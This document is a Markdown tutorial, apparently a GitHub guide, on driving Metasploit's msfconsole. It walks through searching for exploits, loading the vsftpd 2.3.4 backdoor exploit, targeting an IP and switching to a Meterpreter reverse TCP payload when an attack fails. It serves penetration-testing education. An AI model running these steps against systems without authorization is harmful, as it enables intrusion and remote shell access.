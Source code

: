 # Metasploit - MSFConsole Guide

##  Introduction
Metasploit is a powerful **penetration testing framework** that provides a variety of exploits, payloads, and auxiliary tools for security assessments. The **MSFConsole** is the main command-line interface for interacting with Metasploit.

---

## Different modules
| Module Type  | Purpose |
|-------------|---------|
| **Auxiliary** | Used for scanning, enumeration, brute-force attacks, or DoS |
| **Exploit**   | Executes an attack on a vulnerability to gain access |
| **Payload**   | Defines post-exploit actions (shells, persistence, data exfiltration) |

---

##  Finding Exploits
Before using Metasploit, you can search for available exploits using **SearchSploit** or within **MSFConsole**.

### **Using SearchSploit (Offline Exploit Database)**
```bash
searchsploit <query>
```
- Looks up exploits from **Exploit-DB**.
- Example:
  ```bash
  searchsploit Apache 2.4
  ```

### **Using MSFConsole to Search for Exploits**
```bash
msfconsole
search <query>
```
- Example:
  ```bash
  search vsftpd
  ```
- This will return all matching **exploits, auxiliary modules, and payloads**.

---

##  Using an Exploit
Once an exploit is found, load it into the console.

### **Select an Exploit**
```bash
use <exploit_name>
```
- Example:
  ```bash
  use exploit/unix/ftp/vsftpd_234_backdoor
  ```

### **Checking Available Options**
```bash
options
```
- Displays required parameters (e.g., **RHOSTS**, **LPORT**, **PAYLOAD**).

---

##  Setting Target & Payload
### **Set the Target IP Address**
```bash
set RHOSTS <target_ip>
```
- Example:
  ```bash
  set RHOSTS 192.168.1.100
  ```

### **Confirm Current Options**
```bash
options
```
- Verify if required parameters are properly configured.

### **Check Available Targets**
```bash
show targets
```
- Lists **supported OS and versions** for the exploit.

### **Run the Exploit**
```bash
run
```
- Attempts to execute the exploit on the target system.

---

##  Troubleshooting: If the Exploit Fails
Sometimes, an exploit may fail or **crash unexpectedly**. Try the following steps:

1. **Check Available Options Again**
   ```bash
   options
   ```
   - This may display **additional parameters** required.

2. **Change the Payload**
   ```bash
   set payload <query>
   ```
   - Example:
     ```bash
     set payload linux/x86/meterpreter/reverse_tcp
     ```

3. **Confirm Payload Works**
   ```bash
   options
   ```
   - Ensure the **new payload** settings are applied correctly.

4. **Run the Exploit Again**
   ```bash
   run
   ```

---

##  Conclusion
Metasploit is an essential tool for penetration testing, and **understanding how to search, configure, and troubleshoot exploits** is key. If an exploit fails, **experiment with different payloads and configurations** to improve success rates.

